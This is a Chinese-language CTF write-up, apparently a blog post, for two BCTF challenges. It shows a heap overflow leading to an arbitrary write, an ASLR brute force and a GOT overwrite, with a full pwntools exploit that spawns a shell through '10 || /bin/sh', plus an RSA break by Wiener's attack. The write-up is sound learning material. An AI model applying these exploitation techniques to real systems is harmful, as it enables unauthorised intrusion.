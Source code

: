 ```yaml
---
title: BCTF writeup
author: rk700
layout: post
categories:
  - article
tags:
  - exploit
  - crypto
---
```


周末参加了今年的第一次CTF，BCTF。由于这次CTF是面向国际的，所以题目的质量都比较高，种类也比较单纯，以逆向、溢出为主。这次确实是一个非常难得的锻炼机会，让我们体验到了国际水平CTF的难度。

我们队做出了5道题，我做出了zhongguancun和warmup。在这里记录下我思考的过程。

## zhongguancun

是我在周日下午才做出来的。（差距啊……）

我的习惯是，首先通读一遍IDA F5得到的伪代码。但读完后没有发现什么明显的漏洞。具体的，可以创建不同种类的商品，最多16个。有一个全局的数组保存这些商品的指针，而每个商品的结构体中，除了保存我们提供的描述信息、价格等，还在结构体的起始处存有函数指针数组。这里面的函数是在某些步骤下要调用的。此外，还可以汇总现有的商品，生成一个menu，里面记录了商品的所有信息。

第一天找溢出点就花了好久……因为一直没有发现那种很明显的覆盖。最后，是比较了malloc分给menu的大小和menu最多可能存放的内容长度，才发现了溢出点。而且要做到溢出还是比较苛刻的，不仅商品的数目要达到最大，每个商品里的信息长度也要最长，就连商品的价格也要使得printf打印出来的尽可能长（所以价格是负数，就为了多那一个负号）。这样的结果是，生成的menu的长度可以超过malloc分配的长度，覆盖后面的内容。

而menu和商品都是在heap上储存的，如果在menu的后面存有商品，那么上述的溢出就可以修改那个商品的结构体。通过实验发现，我们先生成menu，再添加商品，那么这新添加的商品在heap的地址就在menu的地址之后了。通过计算可得，溢出可以覆盖menu下一个block的前5个字符，所以正好可以覆盖那个商品保存的函数数组。于是我的想法是，先添加第一个商品（因为如果没有商品就不能生成menu），再生成menu；再添加15个商品，再次重新生成menu（用的地址还是前面分配给menu的地址）。这样的话，第二个商品的函数数组就被覆盖了。之后我们再对这个商品进行访问，就可以调用我们提供的函数了。

但是，到这里才刚开始……函数数组里有两个函数，每一个在调用之前都会做检查。如果往函数数组里读`/dev/zero`成功，那么就认为检查不通过。也就是说，要求我们覆盖后的地址是不可写的，GOT这种运行时可写的就不满足要求。这一点我觉得是这道题的关键（最后发现flag里也说到了这一点）

我试着打印.text段里包含的函数指针，发现没有找到什么好用的。最后只能将目光放在原本的函数数组上。这两个函数，一个是用来生成商品的menu内容，参数是商品指针和用来存放所生成字符串的地址；另一个则是计算价格，参数是商品指针和购买数量。我突然发现，如果在应该调用第二个函数时，调用了第一个，那么就可以实现往任意地址写内容了。这是因为，第二个参数--我们提供的购买数量，会被当作是要保存menu信息的字符串地址，`sprintf`往里面写内容。

然而到这里，这个向任意地址写内容的漏洞还是不太实用。因为`sprintf`所写的内容一直到非常靠后面才是我们可控的，即就是说为了修改某地址，我们需要从这个地址的前面就开始覆盖，而这就有一定的局限性。比如说要覆盖GOT第一个的`sprintf`，就需要从GOT前面很远的地方开始写，而不幸的是，那里是不可写的。这个问题也是困扰我比较久的一处。

最后发现了不自然的地方。（又是不自然之处，我觉得我很多题目都是从那些看上去很别扭的地方突破的）具体地，程序里预先定义了商品的不同类型，而且我们也只能选择其一，但这些商品类型字符串居然没有保存在`rodata`里面。一般来说这些都是字符串常量的。这就是不自然的地方。也就是说，我们利用前面的向任意地址写内容的漏洞，去修改这些商品类型字符串的内容；进一步，在后面再次调用有问题的生成menu信息的函数时，所用的商品类型信息变成了我们刚刚修改的，而这些信息恰好就被`sprintf`打印在最开始了。这就解决了上面提到的问题，不需要在目标地址之前开始覆盖了。

于是，我们有了一个可用的向任意地址写任意内容的漏洞。下面所做的，我首先是打印库函数地址来检查ASLR。因为有提供`libc.so`，所以通过某个函数地址泄露就可以得到`system`的地址。我是通过改写存放商品指针的数组内容来做到这一点的。具体地，改写存放所有商品指针的数组的某一项，然后在购买该项时选择"buy buy buy"，计算剩余金钱。这样就会取读这个商品指针后面`ptr+0x76`处的4 bytes作为商品的价格，于是由剩余的金钱就可以计算出商品的价格，即`ptr+0x76`处的内容。当然实际操作时，程序还会检查剩余金额需要非负。这一点，我们可以先买价格为负数的其他商品，使得总金钱变的足够大后再去买。

通过检查GOT里库函数地址，我发现虽然ASLR开启了，但库函数地址只有中间2个bytes被随机化了，也就是说最多只有256种可能，这和我见到的的ASLR相比太少了。这也直接导致我最后使用暴力碰撞地址的办法。因为时间紧迫，我没有分析出如何将计算得到的`system`的地址再写回（有知道的大牛请不吝赐教哈），而是猜测`system`的一个可能的地址，然后反复跑直到真正的地址恰好是我所猜测的。具体地，修改`sprintf@got`为这个我猜的`system`的地址，那么在执行计算价格时，`sprintf`会作用到某个字符串buf上，而那里正好存放的是刚刚读入的购买商品的个数。于是我如果输入`10 || /bin/sh`，那么`atoi`会返回10，通过检查，紧接着的`sprinf`就会变成调用`system("10 || /bin/sh")`，执行shell了。不过这里我后来想改`atoi@got`应该也可以，而且更方便。

于是，我开始一遍遍地跑，希望我猜测的地址能够碰上。跑了大概20几次，终于撞上了。得到flag是`BCTF{h0w_could_you_byp4ss_vt4ble_read0nly_ch3cks}`。好吧，readonly check，我也是第一次见到这样的，学习了。

下面是python代码，其中`system`的地址就是我猜测的。

{% highlight python %}
#!/usr/bin/env python2

from pwn import *
import sys

if __name__ == '__main__' :
    context(arch='i386', os='linux')
    elf = ELF('zhong')

    #ip = "127.0.0.1"
    ip = sys.argv[1]
    conn = remote(ip, 6666)

#store name
    payload = "a\n" + "A"*63 + "\n"
    conn.recvuntil("Your choice? ")
    conn.send(payload)

    genPhoneDes = 0x08049b74

#content of GOT before function addresses are resolved
#len 18
    gotB4=[0x080486c6, 0x080486d6, 0x080486e6, 0x080486f6, 0x08048706, 0x08048716, 0x08048726, 0xf7cc5570, 0x08048746, 0x08048756, 0x08048766, 0x08048776, 0x08048786, 0x08048796, 0x080487a6, 0x080487b6, 0x080487c6, 0x080487d6]
    
    system = 0xf7433da0
#rewrite the 1st entry(sprint) as system, and make sure the other function calls won't crash
    funcAddr = [system] + gotB4[1:]

#create the 1st product
    payload = "a\n" + "B"*31 + "\n4\n-1011111111\n" + "CC" + ''.join([p32(x) for x in funcAddr]) + p32(genPhoneDes) + "D\n"
    conn.recvuntil("Your choice? ")
    conn.send(payload)

#generate the menu
    conn.recvuntil("Your choice? ")
    conn.send("c\n")

#create the following product
    for i in range(1,16):
        conn.recvuntil("Your choice? ")
        conn.send(payload)

#generate the menu again
    conn.recvuntil("Your choice? ")
    conn.send("c\n")

#write to addr storing phone type string 
    blackberry = 0x0804b0fc
    payload = "d\nb\n2\nb\n" + str(blackberry-60) + "\n"
    conn.send(payload)
    
#rewrite sprintf@got
    sprintfGot = 0x0804b00c
    payload = "b\n" + str(sprintfGot) + "\n"
    conn.send(payload)
    conn.recvuntil("Your choice? ")

#calculate wholwsale price of another product
    payload = "c\nb\n5\nb\n"
    conn.send(payload)
    conn.recvuntil("How many do you plan to buy?")

#call sprintf which is system now
    cmd = "/bin/sh"
    payload = "10 || " + cmd + "\n"
    conn.send(payload)

    conn.interactive()
{% endhighlight %}

后记：阅读其他人的writeup，才知道可以不用暴力碰撞的……只需要通过对`atoi@got`进行一个相对的修改，改为`system`即可。而这是可以通过将`atoi@got`改为存放金钱的指针来完成，然后在减去花费的金额时就可以对那里操作了。太巧妙了！

## warmup

这道题只有50分，应该不难，但我是一直到周一凌晨1点多才做出来……

这道题是RSA，给了密文`c`和公钥文件，从中可以获得公钥`e`, `n`。发现`e`非常大，几乎和`n`是同阶的，这非常不自然，因为我常见到的`e`都是很小的。最后我是在查看RSA的wiki时，发现说密钥`d`应该足够大，否则会有Wiener攻击破解。而联想到这么大的`e`，我猜想`d`可能会很小，没想到试了下真的是这样……我是直接用[这里](https://github.com/pablocelayes/rsa-wiener-attack)的现成的代码，并且设置`sys.setrecursionlimit`为10000，用了大概一分多钟得到了密钥`d`。之后就是简单的指数运算，得到明文`p=0x424354467b3965745265613479217d`，即`BCTF{9etRea4y!}`。

## 感想

虽然我们的成绩并不是那么突出，但这次比赛还是很有意义的。其实从总体来看，感觉国内的队伍对web方面的题目还是比较熟练，国外队伍则是在溢出、逆向这些方面比较强。而这次比赛，有大量大分值的溢出逆向题目，所以最后的成绩，国内队伍和国际顶级队伍还是有不小差距。也许溢出逆向为主是国际比赛的主流风格了。不 管怎样，我相信我们国内的队伍也会在这方面不断提高的，我也希望能够和爱好信息安全的小伙伴们共同探讨学习，提高水平。

